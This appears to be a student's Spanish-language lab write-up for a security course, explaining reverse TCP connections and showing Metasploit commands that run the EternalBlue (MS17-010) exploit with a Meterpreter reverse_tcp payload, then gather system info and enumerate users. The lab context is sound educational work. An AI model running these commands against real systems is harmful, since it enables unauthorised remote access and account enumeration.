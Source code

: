 ```yaml
---
title: Clase semana 7
date: 2024-12-05 00:00:00 -05:00
categories: [buffer overflow, jmp, stack pointer]
tags: [shellcode, https, iis]  # TAG names should always be lowercase
---
```

# Tarea.

Requerimientos
El objetivo principal de esta tarea consiste en revisar si cada una de esas direcciones restantes es vulnerable y permite realizar el buffer overflow que, por consecuencia, permita ejecutar el exploit y obtener una shell por conexión tcp reversa.

Como segundo objetivo, el alumno debe de explicar en su procedimiento ¿qué es una conexión tcp reversa? Utilizar un gráfico relacionado a su setup de laboratorio (VM Kali vs VM Windows, VM Kali vs Host Windows) y desarrollar la explicación correspondiente.

Una vez que obtiene la conexión tcp reversa (suficiente con utilizar una de las direcciones de retorno que permite una exitosa ejecución del exploit), investigar los permisos de la shell (es decir, del usuario que ejecuta aquella shell).

#### Desarrollo

### Conexion tcp reversa
Una conexión TCP reversa es una técnica utilizada en penetration testing y ciberseguridad para establecer una conexión de red desde una máquina objetivo (victima) hacia una máquina atacante (controladora). En este contexto, la máquina atacante escucha en un puerto específico por una conexión entrante, y la máquina objetivo inicia la conexión hacia ese puerto.

````bash
use exploit/windows/smb/ms17_010_eternalblue
````
![13ms17_010_eternalblue](/assets/images/13ms17_010_eternalblue.JPG)


````bash
set payload windows/meterpreter/reverse_tcp
````
![14reverse_tcp](/assets/images/14reverse_tcp.JPG)

Se configura la dirección IP y el puerto de la máquina atacante:

![15set_lhost](/assets/images/15set_lhost.JPG)

Una vez que el exploit se ejecuta con éxito, la máquina objetivo intentará conectarse a la máquina atacante en el puerto especificado (4444 en este caso). La máquina atacante escuchará por esta conexión y, si todo está configurado correctamente, se abrirá una sesión de Meterpreter.

Una vez que obtiene la conexión tcp reversa (suficiente con utilizar una de las direcciones de retorno que permite una exitosa ejecución del exploit), investigar los permisos de la shell (es decir, del usuario que ejecuta aquella shell).

Se puede obtener Información del Sistema:
El comando sysinfo para obtener una visión general del sistema:

![16exploit](/assets/images/16exploit.JPG)

````bash
meterpreter > sysinfo
````

Usamos el comando getuid para obtener el ID del usuario actual:

````bash
meterpreter > getuid
````

Usamos el comando enum_users para listar todos los usuarios del sistema:
````bash
meterpreter > enum_users
````